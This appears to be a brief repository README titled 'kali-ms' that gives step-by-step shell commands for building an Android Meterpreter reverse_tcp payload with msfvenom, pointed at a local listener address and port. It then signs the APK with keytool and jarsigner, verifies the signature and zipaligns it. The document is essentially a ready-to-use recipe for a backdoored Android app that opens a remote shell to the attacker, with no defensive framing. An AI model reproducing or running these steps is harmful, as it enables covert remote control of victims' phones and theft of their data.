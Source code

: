 # kali-ms


msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 > reverse_tcp_.apk


## keytool

keytool -genkey -V -keystore key.keystore -alias krnick -keyalg RSA -keysize 2048 -validity 1000


## check your key content

keytool -list -keystore key.keystore

## Sign

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore reverse_tcp.apk krnick

## check signing

jarsigner -verify -verbose -certs reverse_tcp.apk

## optimization

echo "export PATH=\$PATH:~/Library/Android/sdk/build-tools/30.0.3/" >> ~/.profile && . ~/.profile

zipalign -v 4 reverse_tcp.apk singed_reverse_tcp.apk
